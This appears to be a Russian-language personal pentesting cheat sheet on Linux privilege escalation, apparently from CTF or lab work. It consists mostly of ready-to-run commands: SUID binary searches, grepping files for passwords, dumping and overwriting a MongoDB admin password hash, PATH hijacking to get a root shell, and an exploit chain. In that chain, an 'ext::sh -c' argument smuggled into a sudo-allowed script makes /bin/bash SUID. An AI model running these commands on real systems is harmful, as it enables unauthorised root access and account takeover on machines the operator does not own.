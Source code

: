 ### \[lin/win]PEAS и аналоги
[[Утилиты]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```
	find / -user root -perm /4000 2> /dev/null
	``` 
	```
	find / -type f -perm -u=s 2> /dev/null
	```
	```
	find / -perm -40 2> /dev/null
	```
	```
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля: 
	``` 
	cat * | grep -i passw*
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то **bash** команду. 

Дальше нужно создать файл этой bash команды с содержимым:
``` 
/bin/sh
```
и добавить её в начало переменной **PATH**:
```
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

похожий пример:
![[Pasted image 20240625220640.png]]
```
echo '#!/bin/bash' > /tmp/exploit.sh 
echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```
```
ls -l /bin/bash
/bin/bash -p
```
# Windows

См. раздел "сетевые атаки"

